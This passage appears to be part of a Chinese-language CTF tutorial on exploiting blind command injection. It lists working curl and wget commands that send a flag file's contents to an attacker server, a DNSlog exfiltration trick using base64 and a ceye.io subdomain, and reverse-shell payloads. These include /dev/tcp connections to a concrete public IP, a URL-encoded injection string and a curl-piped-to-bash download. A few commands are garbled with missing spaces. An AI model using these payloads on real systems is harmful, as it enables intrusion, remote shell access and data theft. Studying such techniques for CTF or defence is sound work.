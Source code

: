 2、第二步我们开始构造请求

```php
  curl http://*.*.*.**/record.php?data=`cat flag`
  wget http://*.*.*.*/record.php?data=`cat flag`
```

有时候可能会读的不全，利用编码读取

```php
curlhttp://*.*.*.**/record.php?data=`catflag|base64`
wgethttp://*.*.*.*/record.php?data=`catflag|base64`
```

#### 5、DNSlog带出数据

>   (1）命令执行时要避免空格，空格会导致空格后面的命令执行不到；
>（2）将读取的文件命令用反引号``包含起来；
>（3）拼接的域名有长度限制。

利用命令:

```sh
curl `命令` .域名
```

利用:

```sh
#用<替换读取文件中的空格，且对输出结果base64编码
curl `cat<flag.php|base64`

#拼接域名(最终构造结果)
curl `cat<flag.php|base64`.v4utm7.ceye.io
#另一种方法(不过有的环境下不可以)`cat flag.php|sed s/[[:space:]]//g`.v4utm7.ceye.io
```

#### 6、反弹shell

>利用条件：目标服务器可以向可通信的公网服务器发起http请求

```sh
1.服务器端执行
nc -vv -lp 8888
2.命令执行处执行
bash -i >& /dev/tcp/47.95.206.199/8888 0>&1
3.payload
ip=127.0.0.1%0d%0abash+-i+>%26+/dev/tcp/47.95.206.199/8888+0>%261
注意：百度搜索到的基本上都是上边这个方法，但经过测试并未成功。于是想到以前见过的一种方法
```

```sh
#1.首先在公网服务器使用nc命令监听端口
nc -lvp 4444 #或nc -vv -lp 4444

#2.然后在公网服务器上写一个文件(我写入到qwzf文件)，内容是下面命令
bash -i >& /dev/tcp/x.x.x.165/4444 0>&1

#3.最终浏览器上执行的payload(实际上就是在目标机执行curl x.x.x.165:8002/qwzf|bash)
ip=|curl x.x.x.165:8002/qwzf|bash
```
